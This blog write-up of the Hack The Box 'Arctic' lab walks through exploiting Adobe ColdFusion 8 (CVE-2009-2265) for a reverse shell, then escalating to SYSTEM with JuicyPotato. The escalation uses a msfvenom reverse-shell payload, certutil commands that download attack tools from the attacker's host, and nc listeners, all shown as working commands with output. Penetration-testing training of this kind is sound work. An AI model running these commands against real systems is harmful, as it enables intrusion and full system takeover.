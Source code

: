 ```yaml
---
layout: post
title:  HTB Arctic Write-up
description: Part of the OSCP+ Preparation Series
date:   2024-11-18 05:00:00 +0300
image:  '/images/htb_arctic.png'
tags:   [Write-ups, HTB, OSCP+, Easy, Windows, ColdFusion, CVE, Arbitrary-File-Upload, JuicyPotato, MSFVenom]
---
```


# Table of Contents
- [Enumeration](#enumeration)
  - [Nmap](#nmap)
  - [Web Enumeration](#web-enumeration)
- [Foothold](#foothold)
  - [CVE-2009-2265 - Arbitrary File Upload](#cve-2009-2265---arbitrary-file-upload)
- [Privilege Escalation](#privilege-escalation)
  - [Using JuicyPotato.exe to abuse SeImpersonatePrivilege enabled to get access as system with a msfvenom reverse shell](#using-juicypotatoexe-to-abuse-seimpersonateprivilege-enabled-to-get-access-as-system-with-a-msfvenom-reverse-shell)

# Enumeration
### Nmap

```shell
# Step 1 - Find active ports
nmap -p- -Pn --min-rate 10000 10.129.134.186

# Step 2 - Focus scan on the active ports found
nmap -A -T4 -Pn -p135,8500,49154 10.129.134.186
```

```shell
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-17 23:44 EST
Nmap scan report for 10.129.134.186
Host is up (0.036s latency).

PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  http    JRun Web Server
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 136.60 seconds
```

There are three ports open, the ports 135 and 49154 seem to use RPC and the port 8500 seems to be some kind of website.
### Website Enumeration
Lets use our web browser to visit the port 8500:

```shell
http://10.129.134.186:8500/
```

Upon visiting it, we can see an index containing two directories:

```shell
CFIDE/               dir   03/22/17 08:52 μμ
cfdocs/              dir   03/22/17 08:55 μμ
```

They seem to be related to ColdFusion (CF).

Clicking on them and doing some enumeration, we found the following login portal:

```shell
http://10.129.134.186:8500/CFIDE/administrator/
```

Now we can see that the target is indeed running Adobe ColdFusion 8.

We tried some default credentials on the login portal to get access. But we werent successful.

# Foothold
### CVE-2009-2265 - Arbitrary File Upload
Searching on Google and searchsploit we found the CVE-2009-2265.

Lets get it using searchsploit:

```shell
searchsploit -m 50057
cp 50057.py exploit.py
```

Edit the exploit changing the following part of the code with our Kali tun0 IP and port, target IP and target port:

```shell
if __name__ == '__main__':
    # Define some information
    lhost = '10.10.14.206'
    lport = 8443
    rhost = "10.129.134.186"
    rport = 8500
    filename = uuid.uuid4().hex
```

Run the exploit after saving the changes (We dont need to start a nc listener, the exploit will do that for us):

```shell
# Run the exploit
python3 exploit.py
```

Nice! We got access as tolis:

```shell
listening on [any] 8443 ...
connect to [10.10.14.206] from (UNKNOWN) [10.129.134.186] 49269







Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>whoami
whoami
arctic\tolis
```

### User Flag
Now we can get the user.txt flag:

```shell
type C:\Users\tolis\Desktop\user.txt
```

# Privilege Escalation
### Using JuicyPotato.exe to abuse SeImpersonatePrivilege enabled to get access as system with a msfvenom reverse shell
Enumerating the system we found out that the user has SeImpersonatePrivilege enabled:

```shell
C:\ColdFusion8\runtime\bin>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

We will try using JuicyPotato.exe to escalate privileges.

Lets download it and also create a shell.exe reverse shell payload with msfvenom:

```shell
# Get JuicyPotato.exe
https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe

# Create shell.exe reverse shell payload with msfvenom
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.206 LPORT=9001 -a x64 --platform Windows -f exe -o shell.exe
```

Now move it into the target and run it:

```shell
# On Kali
python3 -m http.server 8080

# On target CLI
cd C:\Users\Public\Documents
certutil.exe -urlcache -split -f http://10.10.14.206:8080/JuicyPotato.exe JuicyPotato.exe
certutil.exe -urlcache -split -f http://10.10.14.206:8080/shell.exe shell.exe

# Start nc listener on Kali
nc -lvnp 9001

# Now run JuicyPotato.exe
JuicyPotato.exe -t * -p C:\Users\Public\Documents\shell.exe -l 443
```

It worked! We got access as system:

```shell
listening on [any] 9001 ...
connect to [10.10.14.206] from (UNKNOWN) [10.129.134.186] 49361
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

### Root Flag
Now we can get the root.txt flag:

```shell
type C:\Users\Administrator\Desktop\root.txt
```
